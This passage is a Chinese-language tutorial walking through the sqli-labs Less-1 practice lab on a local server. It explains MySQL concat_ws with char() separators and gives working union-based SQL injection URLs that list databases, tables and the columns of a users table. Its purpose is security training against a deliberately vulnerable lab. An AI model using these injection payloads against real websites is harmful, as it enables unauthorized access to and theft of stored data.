     ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.n5l038hrrms_1534071415.png)

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.wox6raufzu_1534071426.png)

    > 再次强调`concat_ws`的一个参数是连接字符串的分隔符，这里很明显可以看到，但一般第一个参数一般都不是这样传过去的，因为会被html编码，要使用mysql的`char函数`将**十进制**ASCII码转化成字符，如下面的（`：`的十进制ASCII是`58`），当然这里的分隔符也可以多个字符

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.ifxxgq4eoi_1534071435.png)

    用的较多的就是这个啦，以后直接复制（`32`是`空格`的`十进制ASCII`）

    ```
    concat_ws(char(32,58,32),user(),database(),version())  

    * user():返回当前数据库连接使用的用户
    * database():返回当前数据库连接使用的数据库
    * version():返回当前数据库的版本
    ```

* **爆数据库**

    ```
    http://localhost/sqli-labs/Less-1/?id=-1'union select 1,group_concat(schema_name),3 from information_schema.schemata--+
    ```

    此时的 sql 语句为 `SELECT * FROM users WHERE id=’-1’union select 1,group_concat(schema
    _name),3 from information_schema.schemata--+ LIMIT 0,1`

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.z30b5fzkoib_1534071444.png)

* 暴`security`数据库的数据表

    ```
    http://localhost/sqli-labs/Less-1/?id=-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+
    ```

    此时的 sql 语句为 `SELECT * FROM users WHERE id=’-1’union select 1,group_concat(table_n
    ame),3 from information_schema.tables where table_schema=’security’--+ LIMIT 0,1`

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.92t4b6c0djb_1534071453.png)

* 爆 users 表的列

    ```
    http://localhost/sqli-labs/Less-1/?id=-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
    ```
    此时的 sql 语句为 `SELECT * FROM users WHERE id=’-1’union select 1,group_concat(column
    _name),3 from information_schema.columns where table_name=’users’--+ LIMIT 0,1`

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.uxni56mjox_1534071459.png)

* 爆数据
